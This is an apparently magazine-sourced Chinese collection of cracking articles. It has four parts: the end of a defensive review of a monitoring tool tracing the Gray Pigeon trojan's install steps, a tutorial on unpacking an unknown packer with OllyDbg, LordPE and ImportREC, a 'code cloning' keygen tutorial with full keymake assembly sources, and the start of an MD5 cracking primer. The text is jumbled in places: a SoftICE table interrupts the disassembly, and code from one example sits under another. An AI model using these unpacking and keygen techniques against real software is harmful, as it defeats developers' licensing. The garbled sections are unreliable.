线程插入技术是现如今木马程序和流氓软件常用的一种隐藏技术，它们通过将自身的代码嵌入到正在运行的合法进程中，从而使用户在任务管理器中无法查看到自己的进程。现在有了 SSM 后，它完全可以自动地对运行的程序是否被线程插入进行判断。当有文件试图进行线程插入时，SSM 就会弹出一个名为“进程间的活动”的窗口。

通过主窗口的“进程监控器”标签，可以方便地对当前计算机使用的全部进程进行查看。除此以外，双击某个指定的进程还可以详细地查看该进程下各个模块的情况，包括模块路径、映像基址、公司、描述等。在这里不但可以查看到加载程序和系统钩子的准确信息，还能显示出该系统钩子的类型，从而保证用户个人信息以及账户信息的绝对安全。

### 五、实例

这里我们还是利用实际的例子来看看，SSM 是如何进行监控分析的。我们这里用于使用的恶意程序是灰鸽子木马程序。

当我们双击配置好的灰鸽子服务端程序以后，SSM 弹出三个

“程序启动”窗口说：程序 Explorer.exe 尝试启动一未注册的程序，此活动应属正常。这里我点击“允许”按钮，同意服务端程序的运行，如图 5。

接着 SSM 又弹出一个“注册表修改”窗口，称程序尝试修改系统的注册表。点击窗口中的“详情”按钮，发现正在向系统服务列表中添加一个名为“ClipSrv”的启动服务，如图 6。

这个启动服务模仿了系统本身的“ClipSrv”启动服务，而服务关联的程序为 svchost.exe（注意：真正的 svchost.exe 文件应该在系统的 system32 目录）。以后当用户遇到这种向系统目录释放文件，又向系统添加新服务的状况时，就应当果断地终止该程序的运行。就算这个程序不是木马程序，也是其他的恶意程序。点击“允许”按钮后，弹出一个“程序启动”窗口，表示这个假的 svchost.exe 要求启动，我们还是同意它的要求。马上又弹出一个窗口，称假的 svchost.exe 要求启动 IE 浏览器的进程，熟悉木马的用户都明白这是在为线程插入做准备，如图 7。

因为现如今只有流行的木马程序才会将自己的进程插入到其他软件的进程之中进行隐藏，正规的应用程序是不会这么做的。不出所料，接下来弹出的窗口说假的 svchost.exe 尝试存取物理内存，只要我们点击“允许”按钮，线程插入就可以完成；然后弹出的“DLL 注入”窗口，提示用户有一个 DLL 文件要求注入到 IE 浏览器的进程，并且特别提示用户这是键盘记录或流氓软件等常用的安装自身组件的方式之一。通过 SSM 的防止线程插入功能，同样可以有效地阻止这些系统钩子的加载，如图 8。

安装完成后，服务端程序还会调用计算机调试管理器 mdm.exe 针对服务端程序进行排错处理，换句话说就是检查服务端程序有没有正常地运行；检测完成后，服务端程序会释放出一个名为 uninstall.bat 的批处理文件，该文件用于删除原服务端程序的副本，以及在安装服务端程序时使用的其他文件，如图 9。

最后，灰鸽子服务端程序调用 conime.exe 来完成最后的感染步骤。

通过上面的演示，不但告诉你灰鸽子木马添加了哪些注册表项，还告诉你灰鸽子创建的木马文件及其所在路径。以后在弹出的提示窗口中选择“阻止”按钮，就可以阻止包括灰鸽子木马在内的恶意程序的入侵。

## 六、小结

从上面的介绍和实例讲解中我们可以得知，SSM 作为一款系统安全辅助软件的确是非常优秀的。无论是流氓软件、病毒、木马，还是其他的什么文件，程序都能够对它们的一举一动进行全面的监控。但是问题接踵而至，就是 SSM 虽然能够对文件的每一步操作都进行监控，但是要进行具体的检测分析，还是需要用户根据自身的经验做出判断，所以对于普通的计算机用户或电脑初学者来说，想通过 SSM 来进行分析还是比较困难的。

> [文章中涉及到的工具 System Safety Monitor 在光盘中有收录]

**编辑点评**：System Safety Monitor 作为一款安全防护软件，它替用户想得很到位，很多黑客会使用到的隐藏手段，SSM 都有检查。杀毒软件和防火墙毕竟是体系庞大的系统，不可能面面俱到，这时候我们就应该根据需求选择一款主机安全防护软件，弥补前两者遗漏的地方。我想 SSM 作为这样一款软件做得已经很到位了。有些软件虽然功能看似简单，但不能以此评价它是好是坏。术业有专攻，只要一个方面做得不错了，它就是成功的。[NOHACK]

首语：当你拿到手册的时候，刚好是大家躲在家里休息的时间吧？假期的幸福呵，可以躲在冬天暖暖的阳光里。记得有人说，冬天的阳光才是真正的温暖。你感觉得到吗？即使是冬天，在自己的空间，随身熟悉的生活用品，知心的朋友相聚，上网，大家更多地陪伴，空气就不会变质……

## 破资源

资源名：数据结构与算法综合资料库  
格式：CHM

数据结构与算法综合资料库不仅包含了数据结构方面的有关知识，更加综合了目前流行的算法资料。相信这些对你的学习是很有用的。如图 1。

[光盘中有提供]

## 破技巧

## SoftICE 常用命令（4）

在破解中能熟练地利用命令，可以提高破解效率，让你在使用 SoftICE 的时候更加得心应手。

- U：反汇编指令
- VCALL：显示 VxD 可调用例程的名字和地址
- VER：显示 SoftICE 版本号
- VM：显示虚拟机的信息
- VXD：显示 Windows VxD 映像

## 破解前奏之 使用 ESP 定律来辅助脱未知壳

（by December）

### 从本文中你可以学到：

- 使用 ESP 定律来手脱未知壳

在经过前面的几期学习之后，不知道你是否有所收获？如果还没有的话，那么快点找前几期的杂志来看看，必要的基础是成功的关键啊！学习了前面几期的脱壳，这次给大家带来一个未知壳，因为有些壳是作者自己编写的，或者使用一些加花、加伪代码等工具使 PEID 无法辨认出来。之所以 PEID 能够辨认出壳，是因为我们经常地更新 PEID 的特征码文件，但如果壳特征码上面没有的话，那么 PEID 肯定也是无法扫描出来的，所以学习脱未知的壳，也是非常重要的一课。

### 需要准备的工具：

- PeID v0.94（用于检测 PE 文件是否加壳）
- OllyDBG v1.1（以下简称 OD，用于动态调试）
- LordPE v1.4（脱壳辅助工具）
- ImportREC v1.6 Final（脱壳辅助工具）
- Brain（这个是非常重要的，没有它，你根本不可能实现以下过程）

上面的工具，估计是很多人都熟悉的了，如果还没有的话，可以自己在网络上搜索到。为啥每篇都提及这个，主要是照顾还没熟悉的朋友，希望大家不会嫌我废话多（某读者：不是废话多，是废话很多，嘻嘻……）！

### 一、脱壳过程

首先肯定是要查一下壳的，没壳最好，有壳就得想办法脱掉，所以将目标程序拖到 PEID，得到如图 1 所示的结果。

图 1 查壳的结果

PEID 显示“Nothing found *”，所以我判断这是一个未知壳。因为只是脱壳，所以只要知道了这个就基本 OK 了，下面就用 OD 载入去分析一下：

```assembly
005A8060 M> /EB 65          jmp short MupMe#1.005A80C7
; 载入后停在这里
005A8062    |45             inc ebp
005A8063    |78 65          js short MupMe#1.005A80CA
005A8065    |53             push ebx
```

OK，先 F8 一下看看有什么发现没有：

```assembly
005A80C7    60              pushad
```

| 指令 | 说明 |
| :--- | :--- |
| WATCH | 加入一个监视窗口 |
| WC | 打开或关闭代码窗口；或改变代码窗口大小 |
| WD | 打开或关闭数据窗口；或改变数据窗口大小 |
| WF | 以浮点或 MMX 形式显示浮点栈 |
| WHAT | 用来确定一个名字或表达式是否是已知类型 |
| WL | 打开或关闭本地窗口；设置本地窗口的大小 |
| WMSG | 显示 Windows 消息的名字和消息代码 |
| WR | 打开或关闭寄存器窗口 |
| WW | 打开或关闭监视窗口；或改变监视窗口的大小 |
| X | 从 SoftICE 窗口中退出 |
| XFRAME | 显示当前的异常出错句柄框 |
| XG | 在模拟（回溯）跟踪状态中运行程序到某一地址 |
| XP | 在模拟跟踪模式中执行程序 |
| XRSET | 重置回溯跟踪历史缓冲区 |
| XT | 在模拟跟踪模式中单步跟踪程序 |
| ZAP | 将内嵌的 INT 1、INT 3 清为 NOP |

```assembly
; F8 一下来到这里
005A80C8    E8 00000000     call MupMe#1.005A80CD
005A80CD    5D              pop ebp
005A80CE    81ED 40284000   sub ebp,MupMe#1.00402840
```

看看一行 pushad，和一行 call，好像很容易让我们联想起 Aspack 的壳的入口点，所以这里尝试用 ESP 定律来看看。当跟踪到 005A80C8 这里的时候，可以发现右边的 ESP 那里变红色了，据此可以判断 ESP 定律是可以使用的，所以下断点：hr 12ffa4，运行后中断在下面代码处：

```assembly
005A8844    50              push eax
; 中断在这里
005A8845    33C0            xor eax,eax
005A8847    64:FF30         push dword ptr fs:[eax]
005A884A    64:8920         mov dword ptr fs:[eax],esp
005A884D    EB 01           jmp short MupMe#1.005A8850
```

到这里，我发现删除断点后，单步跟踪是失败的，所以我就继续按了几下 F9。当中断到下面代码处的时候，就可以先停下了。

```assembly
005A7E08    8985 3F130010   mov dword ptr ss:[ebp+1000133F],eax
; 当中断到的时候，就可以先停下了
005A7E0E    8BF0            mov esi,eax
005A7E10    8B4B 14         mov ecx,dword ptr ds:[ebx+14]
005A7E13    5A              pop edx
005A7E14    EB 0C           jmp short MupMe#1.005A7E22
005A7E16    03CA            add ecx,edx
005A7E18    68 00800000     push 8000
005A7E1D    6A 00           push 0
005A7E1F    57              push edi
005A7E20    FF11            call dword ptr ds:[ecx]
005A7E22    8BC6            mov eax,esi
005A7E24    5A              pop edx
005A7E25    5E              pop esi
005A7E26    5F              pop edi
005A7E27    59              pop ecx
005A7E28    5B              pop ebx
005A7E29    5D              pop ebp
005A7E2A    FFE0            jmp eax
; 这几行的代码容易让人联想到某些问题
```

到了这里就可以把原来的断点删除了。分析一下上面的代码，看到第二个 JMP 上面有很多行的 POP。联想一下，我们能想到什么呢？对了，还记得前期分析的《破解前奏之手脱 PECompact 2.x 的六脉神剑》吗（广告时间：如果你还没看过此文章的话，那么快点翻开 2006 年第 10 期的《黑客手册》吧，上面有你想要的答案）？记得就好，现在走到 005A7E2A 处，再 F8 一下看看是不是到 OEP 了：

```assembly
005A4000    60              pushad
; F8 后来到这里
005A4001    E8 2A000000     call MupMe#1.005A4030
005A4006    5D              pop ebp
005A4007    50              push eax
```

有点失望，原来不是到 OEP，又到了一个像 Aspack 壳入口点类似的地方。不过不用怕，我们继续使用 ESP 定律（嘿嘿，多用不怪），不过这次的 ESP 使用失败了，因为按一下 F9，程序就已经运行起来了，所以我们再换个思路。既然按一下就运行，那么如果使用单步的话会怎么样呢？想到做到，马上试一下，F7 跟进 005A4001 处的 call，来到下面代码处：

```assembly
005A4030  68 F45F4600  push MupMe#1.00465FF4
; 将 OEP 压栈
005A4035  C3            retn
; 飞向 OEP 处
005A4036  0000          add byte ptr ds:[eax],al
005A4038  0000          add byte ptr ds:[eax],al
```

来到这里，发现是准备飞向 OEP 了，所以我连忙快手快脚地跑去看一下，发现还真的记录 OEP 呢：

```assembly
00465FF4  55             push ebp
; OEP 处，可以 DUMP 了
00465FF5  8BEC           mov ebp,esp
00465FF7  83C4 F0        add esp,-10
00465FFA  B8 045E4600    mov eax,MupMe#1.00465E04
00465FFF  E8 30FCF9FF    call MupMe#1.00405C34
```

Dump 吧，打开 LordPE v1.4，选择该调试进程，如图 2 所示。接着选择“完整转存”将其 DUMP 出来。DUMP 后发现其图标也没了，所以先把镜像大小修复一下再 DUMP，发现其图标可以显示出来了，但运行不起来，如图 3 所示：

图 2 选择“完整转存”

图 3 运行失败

不过不怕，我们可以使用 ImportREC v1.6 Final 来修复它。填入 OEP：65FF4，让其自己搜索，再获取 Imports，发现有几个无效函数。没事，Cut 掉它们就 OK，最后 Fix Dump。再运行修复后的程序，可以看到能很正常地弹出界面来了。接着再使用 PEID 扫描一下，看看是由什么语言编写的，如图 4 所示：

### 总结

图 4 查看编写语言，很明显地看到 Borland Delphi 6.0 - 7.0

不是所有未知的脱壳难度都是很大的，关键还是耐心、方法或者技巧、经验的积累，所以遇上未知壳千万先别放弃，尽自己最大的努力去尝试一下。

本文并没有什么新的技术，主要是运用了 ESP 定律和以前积累的经验所得，所以经验对于每一个 Cracker 都是非常重要的。至于 ESP 定律，其实就是使用堆栈平衡的原理，详细资料大家可以找回以前的《黑客手册》看看，或者用互联网搜索相关资料，因为都被说烂了。但是这个 ESP 定律不掌握好，对脱壳来说是不行的，所以还是建议大家多多努力学习。

最后，如果你在学习本文的过程中有问题的话，可以到《黑客手册》官方论坛发帖交流。

> **编辑点评：**之前的脱壳，都是介绍一些已知的脱壳方法，而对于未知的壳是不是不能脱了呢？本文给我们上了很好的一课。其实既未知和既已知方法大同小异，多练习，手能熟练了，脱未知壳也是很容易的。

## 代码克隆技术与注册机编写之入门篇

风飘雪

### 从本文中你可以学到：

- 1. 什么是代码克隆技术
- 2. 利用代码克隆技术编写注册机

克隆技术已经发展得很迅猛了，人们一会儿克隆一只羊，一会儿克隆一头牛……今天，我们来看看如何复制“马”和克隆“鸡”，当然这里所说的“马”指的是注册码，“鸡”指的是注册机（keygen）。

**手术刀：**keymake，ollydbg（我用的是 OllyICE）。

代码克隆技术是撰写注册机比较高级、顶尖和成熟的技术，可以完美地再现软件注册的全过程，写出来的注册机完美绝伦。由于所写代码均照抄自源码（这不是助长天下学术界抄袭之风吗？），可以确保克隆得一模一样，绝对不会出错。很多时候不必知道注册算法究竟是什么东西、注册的具体流程究竟是怎样的，只需要简单地了解注册算法何时开始、在哪里结束就已足够，省去了很多啰嗦事。比如：提炼、描述出注册算法，再用一门高级语言编写注册机，经过不断地调试、测试，终于编译成功。注册机一般用 VC、VB、易语言、.NET 编写，你需要阅读大量编程书籍去熟悉这些语言，学会编程。许多知识需要去学，good good study, day day up，想起来就吓倒一大片。而代码克隆技术非常精巧，有四两拨千斤之妙，以其人之道还治其人之身，其唯一的一个小缺点是需要会一点点汇编基础知识，只是点点哦！就好比搭积木，身子截了一个过来，加上基本固定的头和脚，便装配齐活儿。

图 1 keymake 软件写法注册机界面

大家跟我一起来玩有趣的搭积木游戏吧！

我们主要是利用刘健英大侠的 keymake 软件写算法注册机，其最终版本是 2.0 版，界面如图 1 所示。

注册机的源代码扩展名为 rek，点“编译”则出现图 2 所示窗口。

图 2 选择输入文本框的个数

图 3 编译成功界面

选择输入文本框的个数，编译成功的界面如图 3 所示，则生成 exe 文件。

你可以通过用资源编辑类软件编辑 keymake 主程序目录 INCLUDE 子目录下 KEY1.RES，来制作专属于自己的注册机界面，一劳永逸哦！图 4 是我的注册机界面：

图 4 我的 keygen 界面

下面我们通过实例来更简明地进行讲解。

## 一、例1

注册码计算的关键部分如下：

```asm
004011D8 |> \33D2          xor       edx, edx
004011DA |. 33C0           xor       eax, eax
004011DC |. 3BC8           cmp       ecx, eax
004011DE |. 7E 0D          jle       short 004011ED
=========▲=计算开始=▲=========
004011E0                  xor ebx, ebx           --------->EBX清0
004011E2 8A5C05E4         mov bl, byte ptr [ebp+eax-1C] ---->
依次取注册名字符的16进制值送入EBX的低位。
004011E6 03D3             add edx, ebx           --------->EDX = EBX + EDX
其中，EDX的初始值为0，EDX用来保存每次循环后的结果。
004011E8 40               inc eax                --------->EAX加1，作为计数器
004011E9 3BC8             cmp ecx, eax           --------->取完了吗？
004011EB 7FF3             jg 004011E0            --------->没取完就跳回循环。
=========〓=计算结束=〓=========
```

它的注册算法就是将姓名的所有字母ASCII码之和相加，以十进制输出，就是注册码。

用 keymake 制作算法注册机（以下为 keygen.rek）：

```asm
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
szBuffer   db 50 dup (0)     ; 存注册码
szFMT      db "%d",0         ; 注册码的格式为十进制，学过C语言的人一定非常明白

.code
mov esi,eax                  ; 姓名转存到 esi
invoke lstrlen,esi           ; 取姓名的长度存入 eax
mov ecx,eax                  ; 姓名长度存入 ecx
xor edx,edx
xor eax,eax
n1:
xor ebx,ebx
mov bl, byte ptr [esi+eax]   ; 源码程序中的 ebp-1C 用 esi 替换
add edx,ebx                  ; 最终的注册码存在 edx 中
inc eax
cmp ecx,eax
jg n1
invoke wsprintf,addr szBuffer,addr szFMT,edx ; 将注册码按指定格式输出到变量
lea eax,szBuffer             ; 变量赋给第二个文本框，最后总要通过 eax 来当接力棒
```

其中，加黑的部分基本上来自程序反汇编代码。

## 二、例2

注册码计算的关键部分如下：

```asm
4012F6:     push 403048                 ; 将输入的用户名压栈
            call kernel32|lstrlen       ; 计算用户名的长度，存入 eax
            xor esi,esi                 ; esi 赋值为0，进行初始化
            mov ecx,eax                 ; 姓名长度存入 ecx
            mov eax,1                   ; eax 赋值为1，进行初始化
401309:     mov edx,dword ptr [403038]  ; edx 的值存入 ebx 中
            mov dl,byte ptr [eax+403037] ; 依次取姓名字符，eax 为计数器，存入 edx 的低位
            and edx,0FFh                ; edx 与 FF 做与运算
            mov ebx,edx                 ; edx 的值存入 ebx 中
            imul ebx,edx                ; ebx = ebx × edx = edx 的平方
            add esi,ebx                 ; 将 ebx 累加到 esi
            mov ebx,edx                 ; edx 的值存入 ebx 中
            sar ebx,1                   ; ebx = ebx 除2 = edx 除2
            add esi,ebx                 ; 将 ebx 累加到 esi，esi 储存最终的累加和
```

```asm
            sub esi,edx                 ; esi = esi - edx，最后 esi 装注册码
            inc eax                     ; eax 计数器加1
            dec ecx                     ; ecx 减1
            jnz 401309                  ; 循环直到把姓名取完
```

注册算法公式为：esi = (edx × edx + edx × 1/2 - edx) 的累加和，edx 依次取姓名字符。

下面，用 keymake 制作算法注册机（以下为 keygen.rek）：

```asm
.const

.data
szHomePage  db "http://fpx.yeah.net",0
szEmail     db "mailto:fpx425@163.com",0
szErrMess   db "请输入姓名!",0
TempBuffer  db 100 dup (0)
szFMT       db "%ld",0  ; 十进制格式输出

.code
mov edi,eax
invoke lstrlen,eax
xor esi,esi
mov ecx,eax
mov eax,1
n1:
mov  edx,dword ptr [edi]      ; 403038 以 edi 替换
mov  dl,byte ptr [eax+edi-1]
and  edx,0FFh
mov  ebx,edx
imul ebx,edx
add  esi,ebx
mov  ebx,edx
sar  ebx,1
add  esi,ebx
sub  esi,edx
inc  eax
dec  ecx
jnz  n1
invoke wsprintf,addr TempBuffer,addr szFMT,esi ; 注册码保存在 esi，输出
lea eax,TempBuffer
```

注意：其中，加黑的部分基本上来自程序反汇编代码。

## 三、例3

关键部分的代码如下：

```asm
004010FA    33C9                xor ecx,ecx
004010FC    33D2                xor edx,edx
004010FE    33DB                xor ebx,ebx
00401100    33C0                xor eax,eax
00401102    837D D8 32          cmp dword ptr ss:[ebp-28],32 ; 姓名必须小于32位
00401106    7D 69               jge short k4n.00401171       ; 大于则跳走，出错
00401108    90                  nop
00401109    90                  nop
0040110A    90                  nop
0040110B    90                  nop
0040110C    0FBE840D 48FFFFFF   movsx eax,byte ptr ss:[ebp+ecx-B8] ; 顺序取姓名的 ASCII 码以字节扩展形式存入 eax
=====> 循环开始
00401114    41                  inc ecx                      ; ecx 递增
00401115    33C1                xor eax,ecx                 ; eax = eax xor ecx，异或操作
00401117    03D8                add ebx,eax                 ; ebx = ebx + eax，结果累加到 ebx
00401119    3B4D D8             cmp ecx,dword ptr ss:[ebp-28] ; 比较姓名是否取完
0040111C    75 EE               jnz short k4n.0040110C      ; 没取完则跳上去
==> 循环结束
0040111E    6BC0 06             imul eax, eax, 6            ; eax = eax * 6
00401121    C1E3 07             shl ebx, 7                  ; ebx = ebx * (2 的 7 次方)
00401124    03C3                add eax, ebx                ; eax = eax + ebx
```

最后的结果（正确的注册码）存入 eax。

```asm
00401126    8945 C8             mov dword ptr ss:[ebp-38], eax
00401129    FF75 C8             push dword ptr ss:[ebp-38]
0040112C    68 38B44000         push k4n.0040B438  ; ASCII "%lX"，数字的格式为长整数，大写16进制
00401131    8D8D 80FEFFFF       lea ecx, dword ptr ss:[ebp-180]
00401137    51                  push ecx
00401138    E8 873D0000         call k4n.00404EC4
```

```asm
0167:00401525 8955A0            MOV     [EBP-60], EDX
0167:00401528 694DA032130000    IMUL    ECX, [EBP-60], 1332
0167:0040152F 894DA0            MOV     [EBP-60], ECX
0167:00401532 6945A032130000    IMUL    EAX, [EBP-60], 1332
0167:00401539 8945A0            MOV     [EBP-60], EAX
0167:0040153C 8145A0A0F40000    ADD     DWORD PTR [EBP-60], 0F4A
```

大家能看懂上面的程序吗？其实就是用姓名字符和连续乘三次 0x1332，然后用这个结果加上 0xF4A，经过这样的计算就得到了你的注册码了。

```asm
0167:00401543 8B5598            MOV     EDX, [EBP-68]
0167:00401546 3B55A0            CMP     EDX, [EBP-60]       ; EBP-60 中保存正确注册码
0167:00401549 0F8571010000      JNZ     NEAR 004016C0       ; 判断注册码是否正确，不同的话就跳到出错提示了
```

下面，用 keymake 制作算法注册机（以下为 keygen.rek）：

```asm
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:gd1@yeah.net",0
szErrMess  db "请输入姓名!",0
szBuffer   db 50 dup (0)
szFMT      db "%lX",0  ; 十六进制整数格式输出
len        dd 0        ; 定义变量 len 为姓名长度

.code
mov esi, eax
invoke lstrlen, esi
mov len, eax
xor ecx, ecx
xor edx, edx
xor ebx, ebx
xor eax, eax
n1:
movsx eax, byte ptr [esi+ecx]
inc ecx
xor eax, ecx
add ebx, eax
cmp ecx, len            ; dword ptr ss:[ebp-28] 用变量 len 替换
jnz n1
imul eax, eax, 6
shl ebx, 7
add eax, ebx            ; 注册码保存在 eax 中
invoke wsprintf, addr szBuffer, addr szFMT, eax
lea eax, szBuffer
```

下面给出例4的 keymake 的算法注册机（keygen.rek）：

```asm
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
szBuffer   db 50 dup (0)
szHex      db "%ld",0

.code
mov esi, eax
invoke lstrlen, esi     ; 姓名长度存在 eax 中
xor edx, edx
xor ebx, ebx
n1:
movsx ecx, byte ptr [esi+edx]
add ebx, ecx            ; EBP-60 全部用 ebx 代替
inc edx
cmp eax, edx
jg n1                   ; 循环，累加求和
mov eax, ebx
imul edx, ebx, 1332h
mov ebx, edx
imul ecx, ebx, 1332h
mov ebx, ecx
imul eax, ebx, 1332h
add eax, 0F4Ah
invoke wsprintf, addr szBuffer, addr szHex, eax
lea eax, szBuffer
```

注意：其中，加黑的部分基本上来自程序反汇编代码。

注意其中加黑的部分。

## 四、例4

关键部分的代码如下：

```asm
0167:004014FC 8D45FC        LEA     EAX, [EBP-04]
0167:004014FF E814040000    CALL    00401918
0167:00401504 8B5594        MOV     EDX, [EBP-6C]
0167:00401507 0FBE0C10      MOVSX   ECX, BYTE PTR [EAX+EDX] ; 依次取 name 中的字符
0167:0040150B 014DA0        ADD     [EBP-60], ECX           ; 累加到 ebp-60 中
0167:0040150E FF4594        INC     DWORD PTR [EBP-6C]      ; 计数
0167:00401511 8D45FC        LEA     EAX, [EBP-04]
0167:00401514 E8DDE10000    CALL    0040F6F6
0167:00401519 3B4594        CMP     EAX, [EBP-6C]
0167:0040151C 7FDE          JG      004014FC                ; 如果没有取完，就跳转，形成循环
```

## 五、例5

目标程序 nullz 的第2关。

```asm
00401B1A B801000000        mov eax, 00000001    ; 给 EAX 赋值为1，作为计数器
00401B1F 33FF              xor edi, edi         ; EDI 清零，作储数器
00401B21 3BF0              cmp esi, eax
00401B23 7211              jb 00401B36

00401B25 0FBE4C0414        movsx ecx, byte ptr [esp+eax+14] ; 提取你输入用户名的第二位的十六进制
00401B2A 03CF              add ecx, edi         ; ECX = ECX + EDI
00401B2C 0FAFC8            imul ecx, eax        ; ECX = ECX * EAX
00401B2F 40                inc eax              ; 计数器加1
00401B30 8BF9              mov edi, ecx         ; EDI = ECX
00401B32 3BC6              cmp eax, esi
00401B34 76EF              jbe 00401B25         ; 形成循环
```

上面程序的功能是将所有输入的姓名字符累加起来，现在还没有结束，请看下面程序的继续运算：

```asm
0167:0040151E 6955A032130000 IMUL    EDX, [EBP-60], 1332
```

第三次计算开始。

```asm
00401B3C 0FBE6C0C14        movsx ebp, byte ptr [esp+ecx+14] ; 提取用户名的第一位
00401B41 8BC7              mov eax, edi                     ; eax = edi
00401B43 33D2              xor edx, edx                     ; edx 清零
00401B45 F7F5              div ebp                          ; eax = eax / ebp，商进 EAX，余数进 EDX
00401B47 33D2              xor edx, edx                     ; edx 清零
00401B49 BD0A000000        mov ebp, 0000000A                ; ebp = 0xA
00401B4E F7F5              div ebp                          ; eax = eax / ebp，商进 EAX，余数进 EDX
00401B50 80C230            add dl, 30                       ; edx = edx + 0x30
00401B53 88540C48          mov byte ptr [esp+ecx+48], dl    ; 把 EDX 的值赋到字符串中
00401B57 41                inc ecx                          ; 计数器 ecx 加1
00401B58 3BCE              cmp ecx, esi
00401B5A 72E0              jb 00401B3C                      ; 形成循环
```

```asm
00401CB3 0FBE5C0500        movsx ebx, byte ptr [ebp+eax]    ; 依次提取用户名第一位的十六进制
00401CB8 8D4C0500          lea ecx, dword ptr [ebp+eax]     ; ecx = ebp + eax
00401CBC 03F3              add esi, ebx                     ; esi = esi + ebx，留意 esi 的初始值
00401CBE 8BD8              mov ebx, eax                     ; ebx = eax
00401CC0 C1E308            shl ebx, 08                      ; ebx 左移8位
00401CC3 33F3              xor esi, ebx                     ; esi = esi xor ebx
00401CC5 8B5C241C          mov ebx, dword ptr [esp+1C]
00401CC9 03D9              add ebx, ecx                     ; ebx = ebx + ecx
00401CCB 8BCF              mov ecx, edi                     ; ecx = edi
00401CCD 0FAFF3            imul esi, ebx                    ; esi = esi * ebx
00401CD0 F7D1              not ecx                          ; ecx 取反
00401CD2 0FAFF1            imul esi, ecx                    ; esi = esi * ecx
00401CD5 40                inc eax                          ; eax = eax + 1
00401CD6 03FA              add edi, edx                     ; edi = edi + edx
00401CD8 3BC2              cmp eax, edx
00401CDA 7CD7              jl 00401CB3                      ; 形成循环
```

下面给出 nullz 的第2关的 keymake 的算法注册机（keygen.rek）：

```asm
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:fpx425@163.com",0
szErrMess  db "请输入姓名!",0
szBuffer   db 50 dup (0)
szHex      db "%d",0
len        dd 0  ; 定义姓名长度 len，替代源代码中的 esi

.code
mov esi, eax                 ; esi 转存姓名
invoke lstrlen,esi
mov len,eax
mov eax,1
xor edi,edi
n1:
movsx ecx,byte ptr [esi+eax] ; esp+14 以 esi 代替
add ecx,edi
imul ecx,eax
inc eax
mov edi,ecx
cmp eax,len
jbe n1
xor ecx,ecx
n2:
movsx ebp,byte ptr [esi+ecx] ; esp+14 以 esi 代替
mov eax,edi
xor edx,edx
div ebp
xor edx,edx
mov ebp,0Ah
div ebp
add dl,30h
mov byte ptr [szBuffer+ecx],dl ; 直接存储，不需要利用 wsprintf 格式化输出
inc ecx
cmp ecx,len
jb n2
lea eax,szBuffer
```

以上基本上来自程序的反汇编代码：注意其中的标记部分，我第一次编译没通过，就是因为数字后面没加 h。

继续：目标程序 nullz 的第3关。

```asm
00401CA0 33C0              xor eax, eax              ; eax 清零
00401CA2 3BD3              cmp edx, ebx              ; 比较是否输入注册码
00401CA4 7E3C              jle 00401CE2              ; 没有则出错
00401CA6 B901000000        mov ecx, 00000001         ; ecx = 1
00401CAB 33FF              xor edi, edi              ; edi 清零
00401CAD 2BCD              sub ecx, ebp              ; ecx = ecx - ebp
00401CAF 894C241C          mov dword ptr [esp+1C], ecx ; 把 ecx 的值放入 [esp+1C] 中
```

计算注册码过程开始：

其 keymake 的算法注册机如下（keygen.rek）：

```asm
.const

.data
szHomePage db "http://fpx.yeah.net",0
szEmail    db "mailto:gd1@yeah.net",0
szErrMess  db "请输入姓名!",0
szBuffer   db 50 dup (0)
szHex      db "%lu",0
a1         dd 0

.code
mov ebp,eax                  ; 姓名转存到 ebp
invoke lstrlen,eax
mov edx,eax
xor edi,edi
xor eax,eax
mov esi,81276345h
mov ecx,1
sub ecx,ebp
mov a1,ecx
n1:
movsx ebx,byte ptr [ebp+eax]
lea ecx,dword ptr [ebp+eax]
add esi,ebx
mov ebx,eax
shl ebx,8h
xor esi,ebx
mov ebx,a1
add ebx,ecx
mov ecx,edi
imul esi,ebx
not ecx
imul esi,ecx
inc eax
add edi,edx
cmp eax,edx
jl n1
invoke wsprintf,addr szBuffer,addr szHex,esi ; 结果保存在 esi
lea eax,szBuffer
```

今天先讲到这里，希望大家对代码克隆法有个基本的了解，本篇属于入门篇，更多精彩敬请期待下期。

> **编辑点评：**
>
> 代码克隆其实是相当有效的破解方法，但这方面的文章不是很多，很多读者不是很了解，那就关注风飘雪为大家带来的代码克隆技术的精彩连载吧。

## 菜鸟也玩密码学算法 MD5

- 从本文中你可以学到：
- 了解 MD5 算法
- 对应用 MD5 算法的程序进行破解

## 一、理论基础

MD5 即 Message-Digest Algorithm 5（信息－摘要算法 5），是一种用于产生数字签名的单向散列算法。MD5 以 512 位分组来处理输入的信息，且每一分组又被划分为 16 个 32 位子分组。经过了一系列的处理后，算法的输出由四个 32 位分组组成，将这四个 32 位分组级联后将生成一个 128 位散列值。首先填充消息使其长度恰好为一个比 512 位的倍数仅小 64 位的数，填充方法是附一个 1 在消息后面，后接所要求的多个 0，然后在其后再加上 64 位的消息长度（填充前）。这两步的作用是使消息长度恰好是 512 位的整数倍（算法的其余部分要求如此），同时确保不同的消息在填充后不相同。四个 32 位变量初始化为：

```text
A=0x01234567
B=0x89abcdef
C=0xfedcba98
D=0x76543210
```


接着进行算法的主循环，循环的次数是消息中 512 位消息分组的数目。将上面四个变量复制到另外的变量中：A 到 a，B 到 b，C 到 c，D 到 d。主循环有四轮（MD4 只有三轮），每轮很相似。第一轮进行 16 次操作，每次操作对 a、b、c 和 d 中的其中三个做一次非线性函数运算，然后将所得结果加上第四个变量、文本的一个子分组和一个常数；再将所得结果向右位移一个不定的数，并加上 a、b、c 或 d 中之一；最后用该结果取代 a、b、c 或 d 中之一。


## 二、实例分析

实例是一个使用 MD5 算法的程序，使用著名的查壳工具 PEiD 扫描了一下，发现程序加了 UPX 0.89.6 - 1.02 / 1.05 - 1.24（Delphi）stub -> Markus & Laszlo 壳，如图 1 所示：

这个属于压缩壳，为了方便，这里很容易地可以使用 PEiD 的插件将其脱掉。脱壳后再扫描一下，发现程序是由 Borland Delphi 6.0 - 7.0 编写，如图 2 所示：


还记得上一期的介绍吧？使用 PEiD 的插件可以看到程序使用了 MD5（注意：使用这个插件所看到的算法并不一定完全使用在注册验证方面，也可能使用在其他方面，也可能是作者的一个欺骗手段，用密码学算法来吓倒你），如图 3 所示：

随便乱注册一下，发现软件有注册直接提示错误的这种我们最喜爱的漏洞，如图 4 所示：

